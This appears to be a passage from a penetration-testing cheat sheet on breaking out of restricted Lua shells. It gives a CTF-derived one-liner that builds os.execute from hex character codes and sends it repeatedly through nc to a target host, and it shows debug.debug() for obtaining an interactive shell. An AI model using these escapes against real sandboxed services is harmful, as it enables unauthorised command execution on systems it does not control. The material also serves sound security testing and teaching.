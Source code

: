```bash
#In this scenario you could BF the victim that is generating a new lua environment 
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Get interactive lua shell**: If you are inside a limited lua shell you can get a new lua shell (and hopefully unlimited) calling:

```bash
debug.debug()
```

## References

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slides: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))




